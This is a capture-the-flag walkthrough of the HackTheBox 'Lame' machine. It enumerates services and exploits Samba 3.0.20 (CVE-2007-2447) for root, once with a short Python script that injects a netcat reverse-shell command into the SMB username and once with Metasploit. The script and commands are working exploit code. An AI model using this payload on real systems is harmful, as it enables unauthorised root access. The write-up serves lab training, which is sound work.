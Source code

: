 ```yaml
---
layout: post
title:  "HackTheBox - Lame"
date:   2022-05-01 17:29:02 +0100
tags: RCE CVE-2007-2447 SMB 
---
```

**Difficulty: <span style="color:green">Easy</span>**  
**Personal Difficulty: <span style="color:green">Easy</span>**   
**Rating: 4.4 / 5**  

This box is arguably one of the easiest on the site. I decided to complete it mainly because I
didn't feel confident with other boxes labelled 'easy' so I wanted to attempt one that was ranked
as easy by users. And it indeed was.  

The key to owning this box was to pay attention to software versions, and keep on the lookout for 
outdated or vulnerable versions specifically. This problem identification is what allowed me to
discover a key RCE vulnerability which I show how to exploit in 2 different ways in this walkthrough.  

## Enumeration  

To start, a ran a Nmap scan for version to identify service versions as well as running default scripts
on the remote system.

```bash
nmap -sC -sV -oN scan.nmap
```

	Nmap scan report for 10.10.10.3
	Host is up (0.019s latency).
	Not shown: 996 filtered tcp ports (no-response)
	PORT    STATE SERVICE     VERSION
	21/tcp  open  ftp         vsftpd 2.3.4
	|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
	| ftp-syst: 
	|   STAT: 
	| FTP server status:
	|      Connected to 10.10.14.21
	|      Logged in as ftp
	|      TYPE: ASCII
	|      No session bandwidth limit
	|      Session timeout in seconds is 300
	|      Control connection is plain text
	|      Data connections will be plain text
	|      vsFTPd 2.3.4 - secure, fast, stable
	|_End of status
	22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
	| ssh-hostkey: 
	|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
	|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
	139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

	Host script results:
	| smb-os-discovery: 
	|   OS: Unix (Samba 3.0.20-Debian)
	|   Computer name: lame
	|   NetBIOS computer name: 
	|   Domain name: hackthebox.gr
	|   FQDN: lame.hackthebox.gr
	|_  System time: 2022-04-20T07:11:43-04:00
	|_smb2-time: Protocol negotiation failed (SMB2)
	| smb-security-mode: 
	|   account_used: guest
	|   authentication_level: user
	|   challenge_response: supported
	|_  message_signing: disabled (dangerous, but default)
	|_clock-skew: mean: 2h00m48s, deviation: 2h49m44s, median: 46s

Ports 21, 22, 139 and 445 are open. SMB 3.0.20 was being run on Debian according to the smb-os-discovery script.
Server Message Block (SMB) is a protocol designed for file and resource sharing on a
network. It's mainly for connecting Windows computers, but can be run on Unix systems too. You can find
more about it [here](https://en.wikipedia.org/wiki/Server_Message_Block).  

I considered that SMB wouldn't be as secure on linux (which is not the case after doing some further research) or 
that they may be running a faulty version. However I didn't go into that just yet. Instead, I decided to check out the FTP
server since anonymous login was allowed. To login via FTP anonymously, use the username `anonymous` and leave
the password blank.  

	$ ftp 10.10.10.3
	Connected to 10.10.10.3.
	220 (vsFTPd 2.3.4)
	Name (10.10.10.3:infiltr8): anonymous
	331 Please specify the password.
	Password: 
	230 Login successful.
	Remote system type is UNIX.
	Using binary mode to transfer files.
	ftp> dir
	229 Entering Extended Passive Mode (|||38290|).
	150 Here comes the directory listing.
	226 Directory send OK.
	ftp>  


Looks like there's no files to be shared on the server. 
I also connected to the system with SMB but found nothing of interest.
With that, I'll start to investigate the specific SMB version, 3.0.20-Debian.    

A quick google search showed me that this machine was vulnerable to [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447).
A further search brought me to [this Metasploit script](https://www.exploit-db.com/exploits/16320). On inspection,
It seems like adding  "/=\`nohup"  and then a shell command (ending with \`) will allow for shell code execution.
`nohup` (no hangup) is a supplemental command used to keep certain processes or commands running even after logging out or disconnecting
from our shell. I'll exploit this using a script.

## <span style="color:red">Shell as Root</span>

I'll start off by showing the 'best practice' exploit, by writing a python script. All this script will do is attempt to connect to the
vulnerable system with the corrupt username and then the payload.  

The payload I'm using is a netcat reverse shell, so that the system connects back to us at `10.10.14.21:4444` and gives us a new shell instance:

```python
#!/usr/bin/python3
from smb.SMBConnection import SMBConnection

payload = "nc 10.10.14.21 4444 -e /bin/sh"
username = "/=`nohup " + payload + "`"

connection = SMBConnection(username, "", "", "")
connection.connect("10.10.10.3",445)
```
  
`10.10.10.3 445` is the remote host and port.  
This was a simple enough script, but necessary since the payload cannot be injected via smbclient. I set up a netcat listener on another
terminal and got root access; both flags captured.  

```bash
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.3] 35336
whoami
root
cd root
ls
Desktop
reset_logs.sh
root.txt
vnc.log
```

And user flag:

```bash
cd /home
ls
ftp
makis
service
user
cd makis && ls
user.txt
```
## Metasploit method

This is essentially the same as what I did but with Metasploit.  

Searching for the script:

	msf6 > search usermap script

	Matching Modules
	================

	   #  Name                                Disclosure Date  Rank       Check  Description
	   -  ----                                ---------------  ----       -----  -----------
	   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


	Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

	msf6 > use 0
	[*] No payload configured, defaulting to cmd/unix/reverse_netcat
	
Setting options:

	msf6 exploit(multi/samba/usermap_script) > show options

	Module options (exploit/multi/samba/usermap_script):

	   Name    Current Setting                                   Required  Description
	   ----    ---------------                                   --------  -----------
	   RHOSTS  10.10.10.3; set RPORT 445, set LHOST 10.10.14.21  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
	   RPORT   139                                               yes       The target port (TCP)


	Payload options (cmd/unix/reverse_netcat):

	   Name   Current Setting  Required  Description
	   ----   ---------------  --------  -----------
	   LHOST  192.168.50.241   yes       The listen address (an interface may be specified)
	   LPORT  4444             yes       The listen port


	Exploit target:

	   Id  Name
	   --  ----
	   0   Automatic


	msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
	RHOSTS => 10.10.10.3
	msf6 exploit(multi/samba/usermap_script) > set RPORT 445
	RPORT => 445
	msf6 exploit(multi/samba/usermap_script) > set LHOST 10.10.14.21
	LHOST => 10.10.14.21
	msf6 exploit(multi/samba/usermap_script) > exploit

	[*] Started reverse TCP handler on 10.10.14.21:4444 
	[*] Command shell session 1 opened (10.10.14.21:4444 -> 10.10.10.3:46546 ) at 2022-05-02 15:58:43 +0100

We got shell as root:

```bash
whoami
root
cd root && ls
Desktop
reset_logs.sh
root.txt
vnc.log
```
